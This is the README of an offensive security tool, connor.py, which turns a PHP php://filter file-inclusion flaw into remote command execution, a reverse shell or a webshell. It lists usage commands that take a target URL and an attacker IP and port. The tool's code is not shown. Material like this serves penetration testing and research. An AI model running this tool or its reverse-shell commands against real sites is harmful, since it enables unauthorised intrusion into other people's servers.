 
# connor.py

- Upgrades a source code disclosure attack via php://filter LFI/RFI into a reverse shell
- Avoids webservers URI size limitation by writting the reverse shell letter by letter
- Includes extra features for webshell & RCE

## Usage
`python3 connor.py help`

**RCE**

`python3 connor.py rce <TARGET-URL> <COMMAND>`

**REVERSE SHELL**

`python3 connor.py shell <TARGET-URL> <IP> <PORT>`

**WEBSHELL** 

`python3 connor.py web <TARGET-URL> <IP> <PORT>`

**Format of TARGET-URL**

`http://site.com?param=`

*An update is coming for URLs with multiple params. For now harcode `url` in `execute_command`.*

## Credits
The RCE part (which is the foundation of this script) was made possible by adapting the code of synacktiv:

https://github.com/synacktiv/php_filter_chain_generator

## Contact
contact@break.me | https://break.me
